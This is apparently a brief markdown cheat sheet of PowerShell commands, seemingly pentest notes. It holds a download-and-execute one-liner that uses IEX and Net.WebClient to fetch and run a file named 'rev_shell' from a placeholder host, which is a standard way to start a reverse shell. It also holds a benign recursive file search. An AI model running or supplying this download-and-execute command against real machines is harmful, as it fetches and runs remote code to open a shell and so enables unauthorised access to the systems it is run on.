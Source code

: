 # Powershell

## Usage

Download and execute file using powershell:

	powershell -c 'IEX(New-Object Net.WebClient).downloadstring("http://<localhostip>/rev_shell")'

Search for files

	Get-ChildItem -Path "C:\Path\To\Search" -Recurse -Filter "filename*"